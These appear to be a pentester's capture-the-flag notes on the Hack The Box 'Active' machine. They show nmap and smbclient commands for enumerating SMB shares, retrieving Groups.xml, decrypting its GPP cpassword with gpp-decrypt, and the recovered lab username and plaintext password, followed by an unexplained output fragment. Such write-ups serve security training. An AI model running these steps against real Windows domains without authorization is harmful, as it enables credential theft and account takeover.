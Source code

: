 **Here we find Groups.xml file that include GPP (Group Policy Preferences).  Within this file is an encrypted password.  Using gpp-decrypt tool, we can crack the password to plaintext.**
https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/
Targeting Server 2012 or older.
msfdb run > smb_enum_gpp module
#### Hack The Box (Active)
https://app.hackthebox.com/machines/148
```bash
nmap -T5 $TARGET
```
```bash
smbclient -L \\\\$TARGET\\
```
```bash
smbclient \\\\$TARGET\\Replication
```
![[Port 139 445 - SMB ~#using smbclient to download all files]]
Look for Groups.xml file after downloading.  Open this file and find the cpassword.  Copy the hash value.
```bash
gpp-decrypt <HASH>
```
`active.htb\svc_tgs`
`GPPPstillSandingStrong2k18`
```
Administrator11170514135025Z0P10Uificate0
"$CHICAGO$"
```
